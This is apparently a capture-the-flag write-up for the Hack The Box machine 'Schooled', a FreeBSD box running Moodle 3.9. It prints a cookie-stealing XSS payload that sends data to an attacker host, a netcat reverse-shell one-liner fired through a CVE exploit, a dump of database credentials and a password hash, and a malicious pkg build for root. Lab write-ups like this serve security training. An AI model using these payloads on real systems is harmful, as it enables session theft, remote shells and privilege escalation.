





> Cool box, not too CTF-like and real-life applicable, my first FreeBSD :smile: But root part was too quick.

## TL;DR

XSS to steal Moodle creds of teacher, privesc as manager and then RCE. Get MySQL in config file, dump users and get password hash. Break the hash with john to ssh as user. Common `pkg install` exploit for root.

## Footholds

```
# Nmap 7.91 scan initiated Mon Aug  2 22:40:05 2021 as: nmap -A -p- -T4 -o nmap.out schooled.htb
Nmap scan report for schooled.htb (10.10.10.234)
Host is up (0.082s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_  256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp    open  http    Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
|_http-title: Schooled - A new kind of educational institute
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
...
```

The website we have seems to be static, no JavaScript to exploit, not so much to do :thinking:

After a while I read that they are talking about a Moodle on this site. So I decided to find it, `moodle.schooled.htb`!

## Entrypoint

### XSS you say?

Found the version by visiting some forbidden page for my user: Moodle 3.9.



We got those email domains: `student.schooled.htb` & `staff.schooled.htb`.

Looking for exploits for this version, I found an XSS payload for `MoodleNet` in user profile. By chance, a teacher (maths class) is looking for enroled students' MoodleNet profiles.

MoodleNet: `<script>new Image().src="http://your-ip:port/" + document.cookie</script>`
`python3 -m http.server port`

See [here for more details about the XSS](https://github.com/HoangKien1020/CVE-2020-25627).

By starting an HTTP server on our machine, we get the teacher's session cookie.




### Get manager access

After some research on this Moodle version, I found a good exploit to use: [https://github.com/lanzt/CVE-2020-14321](https://github.com/lanzt/CVE-2020-14321).

No need to fix this exploit, even if this is not the original exploit script for this CVE, I used it because it was the first to show in the search engine.

```sh
python3 cve.py http://moodle.schooled.htb/moodle -c "whoami" --cookie TEACHER_COOKIE
[...]
www
```

As this box was FreeBSD, `nc` does not work the same, we need a bigger payload for a reverse shell:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f`

So my command to get a reverse shell:

```sh
python3 cve.py http://moodle.schooled.htb/moodle -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f" --cookie TEACHER_COOKIE
```

On another terminal:

```sh
nc -nlvp PORT
$ whoami
www
$
```

We have now a reverse shell! Let's get user.

## User

List user directories:

```
$ ls /home
/home/steve
/home/jamie
```

By looking in the moodle's directory we get this config file:

```php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```

We have now MySQL creds, let's use them:

```sh
/usr/local/bin/mysql -umoodle -p
Password:


```

Weird... We should get a shell here.

In fact the exploit we use is not meant to nest child shells. For example we can't just `bash` to get a bash shell, we must stay in our shell.

Fortunaletly we can execute commands using MySQL's binary:

```sh
/usr/local/bin/mysql -umoodle -pPlaybookMaster2020 -D moodle -e "show tables;"
```



We dump the users:

```sql
select * from mdl_user;
```

The interesting line here is:

```
admin   $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW          Jamie   Borham  jamie@staff.schooled.htb
```

We need to crack this hash. Let's use john:



We can SSH with this.

## Root

Classic:

```
sudo -l

(NOPASSWD) /usr/sbin/pkg update
(NOPASSWD) /usr/sbin/pkg install *
```

Using this [https://gtfobins.github.io/gtfobins/pkg/](https://gtfobins.github.io/gtfobins/pkg/) we build our package to RCE as root:

```sh
# local
echo 'cat /root/root.txt' > a.sh
fpm -n x -s dir -t freebsd -a all --before-install a.sh .
scp x-1.0.txz jamie@schooled.htb:/tmp
```

```sh
# ssh
sudo /usr/sbin/pkg install -y --no-repo-update /tmp/x-1.0.txz
...
/root/root.txt hash here
```


